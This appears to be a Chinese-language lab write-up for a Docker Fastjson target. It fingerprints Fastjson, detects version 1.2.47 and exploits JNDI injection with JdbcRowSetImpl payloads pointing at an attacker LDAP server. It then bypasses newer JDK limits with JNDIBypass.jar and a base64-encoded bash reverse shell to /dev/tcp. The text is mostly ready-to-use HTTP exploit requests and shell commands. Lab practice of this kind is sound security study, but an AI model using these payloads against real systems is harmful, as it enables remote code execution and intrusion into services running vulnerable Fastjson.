


### 判断是否使用fastjson

> 不闭合花括号,看看是否触发报错

```http
POST /login HTTP/1.1
Host: 192.168.111.20
Content-Length: 39
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.111.20
Referer: http://192.168.111.20/tologin
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

{"username":"admin","password":"111111"
```


******

### 探测版本信息

> {
>   "@type": "java.lang.AutoCloseable"

```http
POST /login HTTP/1.1
Host: 192.168.111.20
Content-Length: 39
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.111.20
Referer: http://192.168.111.20/tologin
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

{
  "@type": "java.lang.AutoCloseable"
```


版本信息为`1.2.47`,存在漏洞

******

### 漏洞利用

> 由于机器不出网,所以到不了dnslog,只能弹本地

- 本地`nc`监听,启动`ladp`服务,构造如下请求


```http
POST /login HTTP/1.1
Host: 192.168.111.20
Content-Length: 264
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.111.20
Referer: http://192.168.111.20/tologin
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://192.168.111.25:1389/890iga",
        "autoCommit":true
    }
}
```


```
识别后端是否使用Fastjson：通过在登录处抓包，修改JSON参数（如删除末尾的}或添加"），观察是否出现标准的Fastjson错误提示。
检测Fastjson漏洞存在性：利用DNSlog进行测试，构造包含特定@type和val参数的JSON payload，发送请求后查看DNSlog是否收到请求，以判断是否存在漏洞。靶场环境不出网，故无法使用dnslog测试，但回显报错一致，学习方法即可。
探测Fastjson精确版本：构造包含{"@type": "java.lang.AutoCloseable"}的JSON payload，根据返回的报错信息确定版本为1.2.47。
利用1.2.47版本漏洞：该版本存在mappings缓存机制漏洞，可利用JdbcRowSetImpl进行JNDI注入。
```

******

### fastjson绕过高版本jdk限制

```
Fastjson版本识别及对应漏洞关联性分析
Fastjson JNDI注入漏洞的原理与应用
高版本JDK（8u191及以上）对JNDI注入的限制机制
高版本JDK环境下JNDI注入的绕过思路
Fastjson原生反序列化Gadget的利用逻辑
LDAP协议在漏洞利用中的作用
命令执行与反弹shell的实操应用
内存马注入及连接工具的使用场景
漏洞利用过程中依赖环境的探测与适配
```

### 环境准备

- docker-compose up -d

```yaml
version: '2'
services:
 web:
   image: lemono0/fastjsonparty:1245-jdk8u342
   ports:
    - "80:80"
```

### 漏洞利用

```sh
/bin/sh -i >& /dev/tcp/192.168.31.16/9999 0>&1

# 进行base64编码
L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMxLjE2Lzk5OTkgMD4mMQ==

# 构造恶意payload
bash -c {echo,
L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMxLjE2Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}
```

- 使用`JNDIBypass.jar`工具绕过(注意jdk版本)

```cmd
"D:\JDK\jre-8u321\bin\java.exe" -jar .\JNDIBypass.jar -a 192.168.31.16 -p 1389 -c "bash -c {echo,
L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMxLjE2Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}"
```



- 本地使用nc监听,构造http请求

```http
POST /login HTTP/1.1
Host: 192.168.31.190
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/json
Content-Length: 262

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://192.168.31.16:1389/jTgbF",
        "autoCommit":true
    }
}
```


